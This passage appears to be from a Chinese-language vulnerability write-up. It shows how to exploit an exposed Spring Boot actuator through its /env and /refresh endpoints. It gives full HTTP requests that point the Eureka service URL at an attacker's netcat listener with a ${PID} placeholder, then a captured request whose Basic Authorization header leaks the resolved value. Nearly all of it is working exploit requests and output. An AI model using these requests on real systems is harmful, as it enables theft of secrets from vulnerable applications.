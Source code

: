 
```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

eureka.client.serviceUrl.defaultZone=http://${PID}@10.20.24.191:2444/

```
然后 post refresh 任意内容,触发漏洞

Ps: `一般情况需要等待3秒会有响应包，如果立即返回可能是服务缺少spring-boot-starter-actuator扩展包无法刷新漏洞则无法利用`

```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```

当服务器 nc 监听端口2444 时,接收到


```
root@kali:/tmp# nc -lvvp 2444
listening on [any] 2444 ...
connect to [10.20.24.191] from kali [10.20.24.191] 40960
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2444
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic MzgzNDY6bnVsbA==
```

`Authorization: Basic MzgzNDY6bnVsbA==`
